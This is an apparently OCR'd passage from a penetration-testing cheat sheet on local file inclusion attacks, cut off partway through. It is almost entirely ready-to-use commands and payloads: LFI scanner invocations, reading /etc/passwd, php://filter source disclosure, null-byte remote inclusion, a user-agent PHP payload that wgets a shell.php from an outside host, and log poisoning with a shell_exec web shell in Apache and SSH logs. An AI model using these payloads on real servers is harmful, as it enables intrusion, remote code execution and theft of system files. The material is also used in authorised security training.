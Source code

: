             LFI checkers:
            
            ```bash
            fimap -u "http://INSERTIPADDRESS/example.php?test="
            
            dotdotpwn.pl -m http -h 192.168.1.1 -M GET
            
            Ordered output
            
            curl -s http://INSERTIPADDRESS/gallery.php?page=/etc/passwd
            /root/Tools/Kadimus/kadimus -u http://INSERTIPADDRESS/example.php?page=
            ```
            
            Bypass execution with base64 filter
            
            ```bash
            http://INSERTIPADDRESS/index.php?page=php://filter/convert.base64-encode/resource=index
            
            base64 -d savefile.php
            ```
            
            Bypass extension with nullbyte and/or as parameter
            
            ```bash
            http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt%00
            http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt?
            ```
            
            Code execution via /proc/self/environ and user agent
            
            ```bash
            Edit user agent in browser with payload and execute LFI
            
            USERAGENT: <?system('wget http://IPADDRESS/shell.php -O shell.php');?>
            LFI: www.website.com/view.php?page=../../../../../proc/self/environ
            ```
            
            Web log poison
            
            ```bash
            nc 10.10.10.10 80
            GET /<?php echo shell_exec($_GET['cmd']); ?> HTTP/1.1
            Host: 10.10.10.10
            Connection: close
            
            LFI: www.website.com/view.php?page=../../../../../var/log/apache2/access.log&cmd=id
            ```
            
            SSH auth.log poison
            
            ```bash
            ssh "<?php phpinfo();?>"@IPADDRESS
            
            LFI: www.website.com/view.php?page=../../../../../var/log/auth.log
            
            ```
            
            PHP session file attack
            
            ```bash
            Use proxy to get PHP session id and try to poison variables submitted with payloads
            